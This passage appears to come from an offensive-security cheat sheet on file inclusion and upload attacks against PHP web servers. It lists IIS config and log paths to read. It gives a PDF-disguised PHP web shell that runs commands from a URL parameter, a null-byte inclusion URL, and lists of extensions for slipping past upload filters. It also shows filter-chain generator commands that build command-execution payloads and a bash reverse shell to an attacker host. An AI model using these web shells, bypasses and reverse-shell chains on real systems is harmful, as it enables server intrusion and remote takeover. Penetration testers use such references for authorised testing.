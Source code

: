 C:/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml
C:/Windows/System32/inetsrv/config/applicationHost.config
C:/inetpub/logs/LogFiles/W3SVC1/u_ex[YYMMDD].log
</code></pre>
<h4>PDF PHP Inclusion</h4>
<p>Create a file with a PDF header, which contains PHP code.</p>
<pre><code class="language-c">%PDF-1.4

&lt;?php
    system($_GET[&quot;cmd&quot;]);
?&gt;
</code></pre>
<pre><code class="language-c">http://&lt;RHOST&gt;/index.php?page=uploads/&lt;FILE&gt;.pdf%00&amp;cmd=whoami
</code></pre>
<h4>PHP Upload Filter Bypasses</h4>
<pre><code class="language-c">.sh
.cgi
.inc
.txt
.pht
.phtml
.phP
.Php
.php3
.php4
.php5
.php7
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.php%00.jpeg
</code></pre>
<pre><code class="language-c">&lt;FILE&gt;.php%20
&lt;FILE&gt;.php%0d%0a.jpg
&lt;FILE&gt;.php%0a
&lt;FILE&gt;.php.jpg
&lt;FILE&gt;.php%00.gif
&lt;FILE&gt;.php\x00.gif
&lt;FILE&gt;.php%00.png
&lt;FILE&gt;.php\x00.png
&lt;FILE&gt;.php%00.jpg
&lt;FILE&gt;.php\x00.jpg
mv &lt;FILE&gt;.jpg &lt;FILE&gt;.php\x00.jpg
</code></pre>
<h4>PHP Filter Chain Generator</h4>
<blockquote>
<p>https://github.com/synacktiv/php_filter_chain_generator</p>
</blockquote>
<pre><code class="language-c">python3 php_filter_chain_generator.py --chain '&lt;?= exec($_GET[0]); ?&gt;'
python3 php_filter_chain_generator.py --chain &quot;&lt;?php echo shell_exec(id); ?&gt;&quot;
python3 php_filter_chain_generator.py --chain &quot;&quot;&quot;&lt;?php echo shell_exec(id); ?&gt;&quot;&quot;&quot;
python3 php_filter_chain_generator.py --chain &quot;&quot;&quot;&quot;&lt;?php exec(&quot;&quot;/bin/bash -c 'bash -i &gt;&amp; /dev/tcp/&lt;LHOST&gt;/&lt;LPORT&gt; 0&gt;&amp;1'&quot;&quot;);?&gt;&quot;&quot;&quot;&quot;
python3 php_filter_chain_generator.py --chain &quot;&quot;&quot;&quot;&lt;?php exec(&quot;&quot;/bin/bash -c 'bash -i &gt;&amp; /dev/tcp/&lt;LHOST&gt;/&lt;LPORT&gt; 0&gt;&amp;1'&quot;&quot;);?&gt;&quot;&quot;&quot;&quot;